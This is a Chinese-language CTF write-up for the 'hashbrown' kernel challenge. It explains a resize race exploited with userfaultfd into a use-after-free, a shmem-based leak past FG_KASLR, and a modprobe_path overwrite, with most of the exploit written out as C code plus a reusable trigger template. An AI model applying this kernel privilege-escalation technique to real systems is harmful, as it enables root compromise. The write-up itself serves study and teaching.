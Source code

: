 # hashbrown
## IDA

题目是一个哈希表，代码完成了增删查改以及扩容的功能。

```c
struct hash_entry
{
  uint32_t key;
  uint32_t size;
  char *value;
  hash_entry *next;
};
struct hashmap_t
{
  uint32_t size;
  uint32_t threshold;
  uint32_t entry_count;
  hash_entry_0 **buckets;
};
struct request_t
{
  uint32_t key;
  uint32_t size;
  char *src;
  char *dest;
};
//0x1337: add
if entry_count == threshold:
	threashold = size*1.5
	newsize = 2*size
	newhash = kzalloc(newsize*8)
	newhash <= hashmap

	add_entry(key)
	copy_from_user(entry->val, src)
add_entry(key)
//0x1338: delete key
delete_key(idx, key)
//0x1339: update
update_value(idx, key, size, src)
//0x133a: delete value
delete_val(idx, key)
//0x133b: show value
show_val(idx, key, size, dst)
```

问题在于resize与增删查改的`mutex`不同，而且`resize`在新旧hash表拷贝的过程中存在一个`copy_from_user`，因此可以被userfaultfd来劫持，在此期间通过对原hash表进行删除，则会造成UAF。

## FG_KASLR

会以更细的粒度修改函数的偏移（相对位置），只会修改部分函数，数据段不会修改。

[https://blog.csdn.net/abel_big_xu/article/details/115273078](https://blog.csdn.net/abel_big_xu/article/details/115273078) 发现大概一半的函数会被影响。

本题通过shmem来实现信息泄漏：

```c
if((shmid = shmget(IPC_PRIVATE, 0x1000, 0600)) < 0)
  _perror("shmget");
delev(uaf1);
/* Fill value with shm */
if((shmaddr = shmat(shmid, NULL, 0)) < 0)
  _perror("shmat");

struct shm_file_data {
	int id ;
	struct ipc_namespace * ns ;
	struct file * file ;
	const struct vm _operations_struct * vm _ ops ;  //shmem_vm_ops
};
```

## 信息泄漏

1. 计算到达`resize`的临界值，第一次是0xc
2. 下一次add的`request→src`注册`userfaultfd`，handler中调用`delev(uaf1)`
3. `shamat`申请0x20的`shm_file_data`
4. `show(uaf1)`来信息泄漏

```c
for(i=0;i < threshold;i++)
    add(i, 0x20, val);
// resize and userfaultfd
void* handle_page = get_userfault_page(2);

RUN_JOB(add, key1, 0x20, handle_page);

if((shmid = shmget(IPC_PRIVATE, 0x1000, 0600)) < 0)
  _perror("shmget");
delev(uaf1);
/* Fill value with shm */
if((shmaddr = shmat(shmid, NULL, 0)) < 0)
  _perror("shmat");

release_fault_page();
show(uaf1, 0x20, rbuf);
xxd(rbuf, 2);
size_t * ptr = (size_t *)rbuf;
kernbase = ptr[3] - 0x822b80;
size_t modprobe_path = kernbase + 0xa46fe0;
printf("[+] kernbase: %p\n", kernbase);
printf("[+] modprobe_path: %p\n", modprobe_path);
```

## 修改modprob_path

1. 到达第二次临界值
2. 下一次add的`request→src`注册`userfaultfd`，handler中调用`delev(uaf2)`
3. 不断申请新的hash_entry，试图拿到释放的uaf2的value，设此时的新entry为key3
4. 通过edit(uaf2)来修改key3的value地址，通过edit(key3)来修改value的值，因此实现了任意地址写，进而可以修改modprobe_path的值

```c
for(i=0xd;i<threshold;i++)
    add(i,0x18,val);
RUN_JOB(add, key2, 0x18, handle_page+PAGE_SIZE);
delev(uaf2);
release_fault_page();
for(i=threshold+1;;i++)
{
    add(i,0x18,val);
    show(uaf2,0x18,rbuf); [1]
    if(((uint32_t*)rbuf)[0] != 0x41414141) {
        key3 = ((uint*)rbuf)[0];
        xxd(rbuf, 2);
        printf("[!] find it, key3=%d", key3);
        break;
    }
}
struct hash_entry victim = {
    .key = ((uint*)rbuf)[0],
    .size = ((uint*)rbuf)[1],
    .value = modprobe_path,
    .next = NULL
};
// hash[key3] == hash[uaf2].value
edit(uaf2, 0x18, &victim);
edit(key3, 0x18, "/home/ctf/1.sh");
```

由于此题用的是SLAB，因此最小的object大小为0x20，这也是nirugiri采用0x20没问题的原因。

[1]处存在一定的风险，即heap spray时，可能会造成uaf2的value被spray的value而不是hash_entry占据；但是修改0x18后，无法达到效果，可能是get_hash_idx(key,size)与size相关，因此改变size会进入不同的bucket。

## 触发modprobe_path

借此题形成一个简洁的模版：

```c
edit(key3, 0x18, "/home/ctf/1.sh");
system("echo -ne '#!/bin/sh\n/bin/cp /flag.txt /home/ctf/flag.txt\n/bin/chmod 777 /home/ctf/flag.txt' > /home/ctf/1.sh");
system("chmod +x /home/ctf/1.sh");
system("echo -ne '\\xff\\xff\\xff\\xff' > /home/ctf/bad");
system("chmod +x /home/ctf/bad");
system("/home/ctf/bad");

//trigger
system("cat /home/ctf/flag.txt");
```

## 通过uaf构造任意写
